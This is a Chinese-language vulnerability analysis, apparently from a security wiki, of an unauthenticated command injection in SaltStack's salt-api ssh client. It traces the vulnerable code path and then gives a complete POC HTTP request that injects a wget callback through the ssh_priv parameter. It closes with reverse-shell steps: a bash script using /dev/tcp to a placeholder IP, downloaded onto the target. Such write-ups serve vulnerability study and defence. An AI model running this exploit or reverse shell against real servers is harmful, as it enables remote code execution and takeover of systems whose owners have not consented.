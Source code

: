 当client参数为ssh时，动态调用**salt/netapi/init.py:NetapiClient.ssh()**, 该方法未采用任何鉴权。

**salt/netapi/init.py:NetapiClient.ssh()**

![](http://wikioss.peiqi.tech/vuln/salt-8.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

跟进，路径如下：

**salt/netapi/init.py:NetapiClient.ssh()⇒salt/client/ssh/client.py:SSHClient.cmd_sync()⇒salt/client/ssh/client.py:SSHClient._prep_ssh()**

**salt/client/ssh/client.py:SSHClient._prep_ssh()**

![](http://wikioss.peiqi.tech/vuln/salt-9.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

该方法将kwargs外部可控参数更新值opts变量，该变量可以理解为SaltStack系统的环境变量，使用该变量初始化salt.client.ssh.SSH。

**salt/client/ssh/init.py:SSH.__init__()**

![](http://wikioss.peiqi.tech/vuln/salt-10.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

priv的值从opts变量中获取，并调用salt.client.ssh.shell.gen_key()方法。

**salt/client/ssh/shell.py:gen_key()**

![](http://wikioss.peiqi.tech/vuln/salt-11.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

POC请求包为

```shell
POST /run HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/x-yaml
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 109

token=12312&client=ssh&tgt=*&fun=a&roster=whip1ash&ssh_priv=aaa|wget http://xxx.dnslog.cn
```

![](http://wikioss.peiqi.tech/vuln/salt-12.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

反弹shell的方法

先写 bash文件，内容为反弹shell语句，使用wget下载到目标中

> [!NOTE]
>
> #!/bin/sh
> bash -c 'exec bash -i &>/dev/tcp/xxx.xxx.xxx.xxx/9999 <&1'

![](http://wikioss.peiqi.tech/vuln/salt-13.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)
